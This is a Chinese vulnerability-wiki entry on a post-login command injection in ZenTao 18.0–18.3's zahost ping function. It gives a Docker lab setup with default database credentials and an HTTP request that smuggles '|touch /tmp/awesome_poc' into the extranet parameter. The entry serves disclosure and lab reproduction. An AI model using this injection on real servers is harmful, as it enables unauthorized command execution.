




# 禅道ZenTao zahost extranet ping命令注入

## 条目说明

- 对象与具体问题：禅道ZenTao；zahost extranet ping命令注入
- 版本、配置及部署条件：开源18.0–18.3，Linux例
- 认证与权限前提：需后台宿主机管理权限
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 明确后台登录应保留，Cookie留空是占位而非匿名PoC
- 创建宿主机和touch文件均有状态变更，缺恢复/清理；UID需从当前表单获取
- 请求长度120与body不符；执行结果只有截图，源码提函数无正文
- 修复只最新首页，需具体安全版本；与repo旧链不同sink不合并

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

### 漏洞描述

禅道项目管理系统 v18.0-v18.3 版本 `module/zahost/model.php` 中，`ping` 函数未对传入参数 `$address` 进行校验，导致后台命令执行。

参考链接：

- https://www.zentao.net/book/zentaoprohelp/41.html
- https://www.zentao.net/book/zentaopms/405.html

### 漏洞影响

```
禅道 >=18.0，<=18.3（开源版）
```

### 环境搭建

执行如下命令启动一个禅道 18.0 服务器：

```
docker compose up -d
```

docker-compose.yml

```
services:
  zentao:
    image: easysoft/zentao:18.0
    ports:
      - "8084:80"
    environment:
      - MYSQL_INTERNAL=true
    volumes:
      - /data/zentao:/data
```

服务启动后，访问 `http://your-ip:8084` 即可查看到安装页面，默认配置安装直至完成，数据库默认账号密码为 `root/123456`。

### 漏洞复现

使用安装时配置的账号密码登录系统，点击 `测试 → 宿主机`，添加一个宿主机：







抓包，修改 extranet 参数，拼接命令，执行 `touch /tmp/awesome_poc`：

```http
POST /zahost-create.html HTTP/1.1
Host: your-ip:8084
Accept: application/json, text/javascript, */*; q=0.01
Origin: http://your-ip:8084
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Referer: http://your-ip:8084/zahost-create.html
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Cookie:

vsoft=kvm&hostType=physical&name=poc&extranet=127.0.0.1|touch%20/tmp/awesome_poc&cpuCores=2&memory=2&diskSize=20&desc=&uid=67f347db724c1&type=za
```

> 请求长度说明：原资料 Content-Length 为 120；静态长度已移除，应由客户端根据最终请求体的字节数生成。







### 漏洞修复

升级至最新版本 https://www.zentao.net/


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
